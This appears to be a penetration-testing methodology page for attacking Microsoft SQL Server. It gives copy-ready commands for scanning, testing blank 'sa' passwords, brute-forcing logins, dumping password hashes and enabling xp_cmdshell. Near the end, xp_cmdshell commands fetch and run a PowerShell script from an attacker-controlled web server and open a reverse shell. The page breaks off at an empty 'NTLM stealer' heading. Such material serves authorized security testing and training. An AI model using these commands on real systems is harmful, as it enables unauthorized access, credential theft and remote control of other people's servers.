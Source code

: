 # MSSQL - Methodology

### Network scan

`nmap` can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -sV -sC -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The `nmap` `ms-sql-info.nse` script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The `metasploit` `auxiliary/scanner/mssql/mssql_ping` module attempts to
retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the `nmap` nse script
`ms-sql-empty-password.nse` can be used to quickly try to connect using the
"sa" account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The `Metasploit` `auxiliary/scanner/mssql/mssql_login` module can be used to
brute force credentials for the service. The "BLANK_PASSWORDS" option is worth
setting to "true".  

The `patator` tool can be used as well to brute force credentials on the
service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The `sqsh` Linux utility as well as the `impacket` Python script
`mssqlclient.py` can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>

# -db is optional and defaults to "None"
mssqlclient.py -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Windows authentication using the provided credentials
mssqlclient.py -windows-auth -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Kerberos authentication
mssqlclient.py -k -dc-ip <DC_IP> -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>
```

The `DBeaver` GUI tool can be used to simply access the database content
without knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the `nmap`
nse script `ms-sql-dump-hashes.nse` can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
`John-the-ripper`.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function. The *xp_cmdshell* function is deactivated by default
from SQL Server 2000 and upwards and needs to be activated.  

Note that the Windows process spawned by `xp_cmdshell` has the same security
rights as the SQL Server service account running the service.

The following query can be used to manually activate it given the account used
has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The SQL queries above can be made using the `sqsh` Linux utility as well as
the `impacket` Python script `mssqlclient.py`. The `mssqlclient.py` client
integrates the `enable_xp_cmdshell` and `xp_cmdshell` commands to automatically
enable xp_cmdshell and execute command through it.

```
# mssqlclient.py ...
SQL> enable_xp_cmdshell
SQL> xp_cmdshell <CMD>
SQL> sp_start_job <CMD>
```

In order to execute command through a system shell, the `PowerShell` `Nishang`'s
`Invoke-PowerShellTcp.ps1` can be used.

Once a web server hosting the `PowerShell` script and a listener are up and
running, the following commands can be used to download and execute the script
through the MS SQL service:

```
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>;"

# Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port> must be added at the end of the script
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1')"
```

The `Metasploit` module `exploit/windows/mssql/mssql_payload` automates the
tasks above to deploy a payload, such as a reverse `meterpreter`, on the server
through the MS SQL service.

### NTLM stealer
